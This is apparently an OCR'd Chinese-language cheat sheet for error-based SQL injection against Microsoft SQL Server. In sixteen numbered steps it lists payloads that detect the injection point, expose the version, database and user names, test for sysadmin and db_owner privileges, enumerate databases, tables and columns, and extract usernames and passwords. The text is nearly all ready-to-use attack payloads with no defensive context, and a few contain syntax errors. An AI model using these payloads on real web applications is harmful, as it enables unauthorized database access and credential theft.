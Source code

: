 ```
1. 判断注入点
	id=1'
	id=1 and 1=1	//返回正常
	id=1 and 1=2	//返回错误		=>  数字型
2. 判断是否为MSSQL数据库
	id=1 and exists(select * from sysobjects) --+	//返回正常为mssql
	id=1 and exists(select count(*) from sysobjects) --+
3. 判断数据库版本号
	id=1 and @@version>0 --+
	//@@version为mssql的全局变量，强制它转化为数字型进行比较，必然报错，进而暴露出数据库信息
4. 获取当前数据库
	id=1 and db_name()>0 --+
    id=1 and 1=db_name() --+
5. 判断当前服务器角色是否拥有比较高的权限
	id=1 and 1=(select is_srvrolemember('sysadmin')) --+	//判断是否为sysadmin权限
	...		//判断其他权限
	...	
6. 判断当前数据库角色是否为DB_OWNER
	id=1 and 1=(select is_member('db_owner')) --+	 	//判断是否为db_owner权限
7. 获取当前用户名字
	id=1 and user_name()>0 --+
8. 获取所有数据库名 
	id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+
9. 获取数据库的个数
	id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+
10. 一次性获取所有数据库
	id=1 and 1=(select quotename(name) from master.sys.dbo.databases FOR XML PATH('')) --+
11. 获取第一个表名
	id=1 and 1=(select top 1 table_name from information_schema.tables) --+
12. 获取其他表名
	id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)) --+		//m为第几个表
		or
	id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) -+
13. 获取当前字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users') --+
14. 获取所有字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and columns_name not in('id','username','password')) --+		//后面跟表的字段
		or
    id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+
15. 获取数据
	id=1 and 1=(select password from users where id=1) --+
		or
    id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+
16. 其他函数注入
	id=1 and 1=(select cast(name as int) from sys.databases where database_id=1) --+
		or
    id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```
